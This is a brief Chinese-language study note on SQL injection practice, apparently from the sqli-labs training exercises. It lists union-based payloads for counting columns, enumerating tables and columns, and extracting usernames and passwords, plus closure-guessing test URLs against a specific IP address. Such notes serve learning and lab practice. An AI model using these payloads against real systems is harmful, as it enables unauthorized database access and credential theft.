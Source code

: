 # 原创
：  做题总结

# 做题总结

**sql注入基本语句**

```
order by 4 -- -
判断有多少列
union select 1,2,3 -- -
判断数据显示点
union select 1,user(),database()­­ -- -
­显示出登录用户和数据库名
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security' ),3 -- -
查看数据库有哪些表
union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' ),3 -- -
查看对应表有哪些列
union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 -- -
查看账号密码信息


```

**sql注入字符型闭合方式**

```
字符型
就如上边所说，闭合方式有很多种，我们需要挨个猜

常见的闭合方式有成对的' '、” “、（ ）

以及他们的组合类似于（' '）

```

**验证方式**

```
数值型
43.247.91.228:84/Less-2/?id=1
43.247.91.228:84/Less-2/?id=99999 
43.247.91.228:84/Less-2/?id=1 and 1=1
43.247.91.228:84/Less-2/?id=1 and 1=2
43.247.91.228:84/Less-2/?id=1 or 1=1
字符型
http://43.247.91.228:84/Less-1/?id=1
http://43.247.91.228:84/Less-1/?id=1'
http://43.247.91.228:84/Less-1/?id=1' or '1'='1'--+
http://43.247.91.228:84/Less-1/?id=1' --+
考虑不同闭合方式，有时会出现（‘’）

```
